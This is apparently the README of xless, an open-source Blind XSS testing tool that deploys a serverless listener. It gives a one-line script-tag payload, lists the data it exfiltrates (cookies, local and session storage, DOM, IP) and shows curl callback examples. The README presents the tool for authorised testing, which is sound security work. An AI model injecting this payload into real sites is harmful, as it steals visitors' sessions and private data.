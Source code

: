 <h1 align="center">
  <br>
  <a href="https://github.com/mazen160/xless"><img src="https://user-images.githubusercontent.com/29874489/58731472-4f6c8080-83de-11e9-8206-992f4d777fdc.png" alt="Xless"></a>
  <br>
  xless
  <br>
</h1>

<h4 align="center">The Serverless Blind XSS App</h4>

<p align="center">
  <img src="https://img.shields.io/maintenance/yes/2019.svg?style=flat-square" alt="Maintained" />
  <img src="https://img.shields.io/bitbucket/issues-raw/mazen160/xless.svg?style=flat-square" alt="Issues" />
  <img src="https://img.shields.io/github/last-commit/mazen160/xless.svg?style=flat-square" alt="Last Commit" />
</p>

## :information_source: About The Project
**Xless** is a serverless Blind XSS (bXSS) application that can be used to identify Blind XSS vulnerabilities using your own deployed version of the application.  
There is no need to run a full deployment process; just setup a [vercel.com](https://vercel.com/) account and run `bash deploy.sh`.
That's it. You now have a fully-running Blind XSS listener that uses Slack to notify you for callbacks.

## :warning: Requirements
* [vercel.com](https://vercel.com/) account: Vercel provides a **free plan** for serverless. If you use another provider for serverless, code changes should be minimal.
* Slack Incoming Webhook URL.


## :rocket: Deployment
1. Run `bash deploy.sh`

```bash
$ bash deploy.sh

> Deploying ~/xless under X
> https://xless.vercel.app [v2] [in clipboard] [4s]
> Success! Deployment ready [4s]
```
2. Use the URL for blind XSS testing :fire:

**Xless will automatically serve the XSS payload, collect information, and exfiltrate it into your serverless app, which is then sent right to you in Slack.**


## :speech_balloon: Example Payload

```html
<script src="https://xless.vercel.app"></script>
```


## :eyes: Demo
![Demo](https://raw.githubusercontent.com/mazen160/public/master/static/images/xless-screenshot.png)


## :incoming_envelope: Collected Data

* Cookies
* User-Agent
* HTTP Referrer
* Browser DOM
* Browser Time
* Document Location
* Origin
* LocalStorage
* SessionStorage
* IP Address

## :satellite: Out-of-Band (OOB) Callbacks Listener

Xless also works as an OOB (Out-of-Band) callbacks listener for HTTP/HTTPS requests. Any HTTP GET request that is sent to non-parent path will be alerted.

## :eyes: Demo

```bash
$ curl https://xless.vercel.app/callback-canary
```

![OOB CallBack Listener Demo](https://raw.githubusercontent.com/mazen160/public/master/static/images/xless-screenshot-oob-callback-example.png)

Or anything random, such as:

```bash
$ curl https://xless.vercel.app/88bf0ecd
```


##  Example Blind XSS payloads

You can view a number of handy XSS payloads for your xless app at `$URL/examples`
* URL: `https://xless.vercel.app/examples`
Once you deploy your app, you can find the examples there.


## Contribution
Contribution is very welcome. Please share your ideas by Github issues and pull requests.

Here are some ideas to start with:
1. Enabling sharing of page screenshot - Check `test.payload.js`.
2. _Your idea of a new feature_?


## Acknowledgement

* [Matthew Bryant](https://github.com/mandatoryprogrammer) for the XSS Hunter project.
* [Rami Ahmed](https://twitter.com/rami_ahmad) for the "xless" name idea.
* [Damian Ebelties](https://twitter.com/DamianEbelties) for the logo.
* [Vercel.com](https://vercel.com/) for operating a great serverless platform.

## Awesome Similar Projects

* [Azure-xless](https://github.com/dgoumans/Azure-xless): An Xless implementation for Microsoft Azure Function by [Daan Goumans](https://twitter.com/daangoumans).


## Legal Disclaimer
This project is made for educational and ethical testing purposes only. Usage of xless for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


## License
The project is currently licensed under MIT License.

## Author
*Mazin Ahmed*
* Website: [https://mazinahmed.net](https://mazinahmed.net)
* Email: mazin [at] mazinahmed [dot] net
* Twitter: [https://twitter.com/mazen160](https://twitter.com/mazen160)
* Linkedin: [http://linkedin.com/in/infosecmazinahmed](http://linkedin.com/in/infosecmazinahmed)
